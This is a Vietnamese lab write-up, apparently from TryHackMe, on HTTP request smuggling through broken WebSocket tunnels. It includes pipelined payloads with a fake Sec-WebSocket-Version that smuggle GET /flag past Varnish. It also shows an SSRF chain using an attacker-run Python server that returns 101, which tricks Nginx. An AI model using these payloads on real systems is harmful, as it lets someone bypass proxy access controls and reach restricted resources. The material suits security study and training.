# **Request Smuggling: WebSockets**
## **1. WebSockets**
### 1. WebSocket giải quyết vấn đề gì?

**Giao thức HTTP truyền thống:**
* Hoạt động theo cơ chế "Hỏi - Đáp": Client phải gửi yêu cầu thì Server mới trả lời. Server không thể tự động đẩy thông tin về cho Client.
* Để cập nhật thông báo theo thời gian thực, Client phải liên tục gửi yêu cầu hỏi thăm Server (gọi là Polling).
* 💡 **Ví dụ đời sống:** Giống như bạn đang đợi bưu phẩm và cứ 5 phút lại chạy ra bưu điện hỏi "Có đồ của tôi chưa?". Việc này cực kỳ tốn sức và lãng phí thời gian.

**Giao thức WebSocket:**
* Tạo ra một kênh kết nối 2 chiều liên tục (full-duplex). Cả Client và Server đều có thể gửi dữ liệu cho nhau vào bất cứ lúc nào mà không cần phải thiết lập lại kết nối.
* 💡 **Ví dụ đời sống:** Giống như bạn và Server đang gọi điện thoại cho nhau. Đường dây luôn mở, hễ ai có thông tin gì thì cứ thế nói ngay lập tức.

### 2. Quá trình "Nâng cấp" lên WebSocket diễn ra thế nào?

WebSocket hoàn toàn tương thích với HTTP. Quá trình chuyển đổi diễn ra như sau:
1. Client khởi tạo bằng một HTTP Request thông thường, nhưng đính kèm header `Upgrade: websocket` (Này Server, mình chuyển sang dùng WebSocket nhé).
2. Nếu Backend Server hỗ trợ, nó sẽ trả lời bằng mã `101 Switching Protocols` (Đồng ý, đang chuyển giao thức).
3. Từ thời điểm này trở đi, đường truyền chính thức dùng ngôn ngữ WebSocket thay vì HTTP.



### 3. Vai trò của Proxy và lý do Request Smuggling thất bại trong Tunnel

**Khi có Proxy (như Frontend Proxy) đứng giữa:**
* Proxy thường không tự xử lý yêu cầu nâng cấp (`Upgrade: websocket`) mà sẽ **chuyển tiếp (relay)** yêu cầu đó thẳng vào Backend Server.
* Ngay khi Backend Server đồng ý nâng cấp, Proxy sẽ thiết lập một **đường hầm (tunnel)** thông suốt nối thẳng từ Client tới Backend Server, cho phép dữ liệu WebSocket đi qua mà không bị can thiệp.
* 💡 **Ví dụ đời sống:** Proxy giống như nhân viên tổng đài. Khi bạn yêu cầu "Hãy nối máy nội bộ trực tiếp cho tôi gặp Giám đốc (Backend)", tổng đài viên nối máy xong sẽ tự động lùi lại, để lại một "đường ống" truyền trực tiếp giữa bạn và Giám đốc.

**Tại sao việc "Smuggling" (Đưa lậu HTTP Request) thất bại tại đây?**
* Vấn đề là đường hầm này hiện tại đang giao tiếp độc quyền bằng giao thức WebSocket.
* Nếu bạn lợi dụng đường hầm này để tuồn lậu một HTTP request vào trong, Backend Server sẽ ngay lập tức **từ chối**. Lý do là Server đang kỳ vọng dữ liệu chuẩn WebSocket, nên nó không chấp nhận dữ liệu định dạng HTTP cũ nữa.



## **2. Abuse WebSockets for Request Smuggling**
### 1. Smuggling HTTP Requests qua Broken WebSocket Tunnels

**Lý thuyết cơ bản:**
* Để "tuồn lậu" (smuggle) request qua một proxy có lỗ hổng, chúng ta có thể tạo ra một request dị dạng (malformed request) để đánh lừa proxy rằng quá trình nâng cấp WebSocket đã diễn ra.
* Việc này ép proxy phải thiết lập một đường hầm (tunnel) giữa client và server. Proxy sẽ không kiểm tra dữ liệu đi qua đường hầm này nữa vì nó tưởng đó là kết nối WebSocket.
* **Cách thực hiện:** Gửi request nâng cấp với header `Sec-WebSocket-Version` không hợp lệ (ví dụ: `777` thay vì `13`).
* **Phản hồi của Backend:** Vì version không được hỗ trợ, backend server sẽ từ chối nâng cấp và trả về lỗi `426 Upgrade Required`. 



**Lợi dụng lỗ hổng của Proxy:**
* Một số proxy có lỗ hổng ở chỗ: chúng mặc định giả định rằng quá trình nâng cấp *luôn luôn thành công*, bất kể backend server trả về mã lỗi gì.
* **Hậu quả:** 
    1. Backend từ chối nâng cấp (trả về `426`) và vẫn giữ kết nối là HTTP thông thường.
    2. Proxy lại tưởng nâng cấp thành công nên mở toang đường hầm.
    3. Giờ đây, bạn có một đường hầm "giả WebSocket" nhưng thực chất bên trong vẫn đang chạy HTTP. Bạn có thể thoải mái gửi các HTTP request (như GET `/flag`) qua đường hầm này mà không bị proxy kiểm duyệt.



### 2. Vượt qua giới hạn của Proxy (Bypass Proxy Restrictions) - Thực hành

**Tình huống:**
* Ứng dụng chạy sau proxy Varnish (IP: `10.48.168.247:8001`). Mục tiêu là đọc nội dung file `/flag`
* Khi truy cập trực tiếp `/flag`, Proxy chặn lại và báo lỗi `404 Not found (Guru Meditation)` Điều này chứng tỏ Proxy đang kiểm duyệt và cấm truy cập vào đường dẫn này



**Cách khai thác bằng Burp Suite:**
* Ứng dụng có một endpoint WebSocket tại `/socket` Chúng ta sẽ dùng endpoint này để kích hoạt lỗi
* **Bước chuẩn bị quan trọng:** Trong Burp Suite Repeater, phải tắt tùy chọn **Update Content-Length** (bỏ dấu tick). Nếu không, Burp sẽ tự động sửa request và làm hỏng cuộc tấn công[cite: 6].



**Gửi Payload:**
Chúng ta ghép nối (pipelining) hai request lại với nhau:

```http
GET /socket HTTP/1.1
Host: 10.48.168.247:8001
Sec-WebSocket-Version: 777
Upgrade: WebSocket
Connection: Upgrade
Sec-WebSocket-Key: nf6dB8Pb/BLinZ7UexUXHg==

GET /flag HTTP/1.1
Host: 10.48.168.247:8001

```

1. Request đầu tiên: Cố ý nâng cấp WebSocket bị lỗi bằng `Sec-WebSocket-Version: 777`.
2. Request thứ hai (Smuggled Request): `GET /flag HTTP/1.1`.
* **Kết quả:** Request đầu tiên bị backend trả về `426 Upgrade Required` Nhưng proxy đã bị lừa và mở tunnel Request thứ hai (`GET /flag`) trôi lọt qua tunnel, tới backend thành công và trả về mã `200 OK` cùng nội dung của cờ (flag) `THM{...}`



### 3. Mở rộng: Ứng dụng không hỗ trợ WebSocket thì sao?

* Một số proxy bị lỗi nặng đến mức chúng **không thèm quan tâm endpoint đó có hỗ trợ WebSocket hay không**. 
* Bạn có thể gửi request nâng cấp WebSocket vào thư mục gốc `/` (một endpoint hoàn toàn không liên quan đến WebSocket). Proxy vẫn bị lừa và mở tunnel.
* **Lưu ý thực tế:** Kỹ thuật này đôi khi hoạt động thiếu ổn định trên Burp Suite (có lúc được lúc không). Để ổn định 100%, bạn có thể sử dụng công cụ dòng lệnh `netcat` (nc) bằng cách dán trực tiếp payload vào terminal: `nc 10.48.168.247 8001` (nhớ gõ thêm 2 lần Enter/newline ở cuối payload)[cite: 8].

### 4. Header bắt buộc trong HTTP Request Smuggling (qua WebSocket)

* **`Upgrade: WebSocket`**: 
  Lời đề nghị trực tiếp chuyển đổi giao thức từ HTTP sang WebSocket.
  
* **`Connection: Upgrade`**: 
  Thông báo cho Server và Proxy biết request này có chứa yêu cầu nâng cấp, cần giữ kết nối để chuyển đổi trạng thái (không đóng lại).

* **`Sec-WebSocket-Version: 777`**: 
  Khai báo phiên bản WebSocket muốn sử dụng. 
  * *Thực tế:* Luôn dùng phiên bản chuẩn là `13`.
  * *Trong kịch bản hack này:* Cố tình ghi sai thành `777` để ép Backend từ chối (trả về lỗi `426`), qua đó đánh lừa Proxy mở hớ đường hầm (tunnel).

## **3. Defeating Secure Proxies**
### 1. Khi Proxy thông minh hơn (Upgrading our Proxy)

**Vấn đề với Nginx Proxy:**
* Ở phần trước, proxy Varnish bị lừa vì nó không thèm kiểm tra phản hồi từ Backend.
* Sang bài tập này, hệ thống dùng **Nginx Proxy**. Nginx bảo mật hơn vì nó sẽ **kiểm tra mã phản hồi (response code)** từ Backend Server trước khi quyết định có mở đường hầm (tunnel) hay không.
* Nếu chúng ta dùng lại kỹ thuật cũ (gửi `Sec-WebSocket-Version: 777`), Backend trả về lỗi `426`. Nginx đọc được lỗi này, biết rằng WebSocket nâng cấp thất bại, nên nó sẽ ngắt kết nối và trả về lỗi `403 Forbidden` thay vì mở tunnel.



### 2. Đánh lừa Proxy bằng cách kết hợp lỗi SSRF (Tricking the Proxy)

**Ý tưởng khai thác mới:**
* Vì Nginx chỉ mở tunnel khi thấy mã `101 Switching Protocols`, chúng ta phải tìm cách ép Backend Server trả về đúng mã `101` này, mặc dù thực tế Backend không hề nâng cấp kết nối.
* Để làm được điều này, chúng ta cần ứng dụng Backend có một lỗ hổng khác để lợi dụng. Trong trường hợp này là lỗ hổng **SSRF (Server-Side Request Forgery)**.



**Phát hiện lỗ hổng SSRF:**
* Ứng dụng mục tiêu có một chức năng kiểm tra trạng thái URL tại endpoint `/check-url?server=<url>`.
* Khi ta nhập một URL vào đây, Backend Server sẽ tự động truy cập vào URL đó và trả về mã trạng thái (status code) cho chúng ta. Đây chính là lỗ hổng SSRF, cho phép ta điều khiển Backend Server truy cập vào máy chủ tùy ý.



### 3. Thiết lập máy chủ giả mạo và Tiến hành khai thác

**Thiết lập Attacker Server:**
* Đầu tiên, kiểm tra xem Backend có thể kết nối được tới máy chủ của chúng ta (AttackBox) không bằng cách dùng lệnh `nc -lvp 5555` để hứng request.



* Sau đó, kẻ tấn công viết một đoạn script Python nhỏ để tạo ra một máy chủ web giả mạo. Nhiệm vụ duy nhất của máy chủ này là: Bất kể ai truy cập vào, nó đều trả về mã `101 Switching Protocols`.

```python
import sys
from http.server import HTTPServer, BaseHTTPRequestHandler

if len(sys.argv)-1 != 1:
    print("""
Usage: {} 
    """.format(sys.argv[0]))
    sys.exit()

class Redirect(BaseHTTPRequestHandler):
   def do_GET(self):
       self.protocol_version = "HTTP/1.1"
       self.send_response(101)
       self.end_headers()

HTTPServer(("", int(sys.argv[1])), Redirect).serve_forever()
```

```bash
python3 myserver.py 5555
```

**Quá trình tấn công hoàn chỉnh:**
Chúng ta ghép nối (pipelining) 2 request trong Burp Suite:
1. **Request 1 (Kích hoạt SSRF):** Gửi yêu cầu nâng cấp WebSocket vào endpoint bị lỗi, ví dụ: `GET /check-url?server=http://<IP-của-Attacker>:5555`.
2. **Request 2 (Smuggled Request):** `GET /flag HTTP/1.1`.

**Kết quả:** 
1. Request 1 đi qua Proxy tới Backend. Backend dính lỗi SSRF nên ngoan ngoãn truy cập vào máy chủ Python của chúng ta. 
2. Máy chủ Python trả về mã `101`. Backend lấy mã `101` này báo cáo lại cho Nginx Proxy.
3. Nginx Proxy thấy mã `101`, tưởng rằng WebSocket đã được thiết lập thành công nên mở toang đường hầm (tunnel).
4. Request 2 (`GET /flag`) lập tức chui lọt qua đường hầm này, qua mặt sự kiểm duyệt của Proxy và lấy được nội dung cờ thành công.

